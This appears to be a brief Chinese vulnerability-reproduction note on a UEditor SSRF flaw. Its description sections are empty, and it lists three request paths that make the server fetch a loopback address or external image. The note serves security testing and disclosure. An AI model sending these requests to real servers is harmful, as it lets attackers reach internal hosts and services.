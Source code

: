 # ueditor ssrf

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

存在漏洞路径：


```bash
/ueditor/jsp/getRemoteImage.jsp?upfile=http://127.0.0.1/favicon.ico?.jpg

/ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif

/ueditor/php/controller.php?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif

存在就会抓取成功、也可以抓取外网的测试
```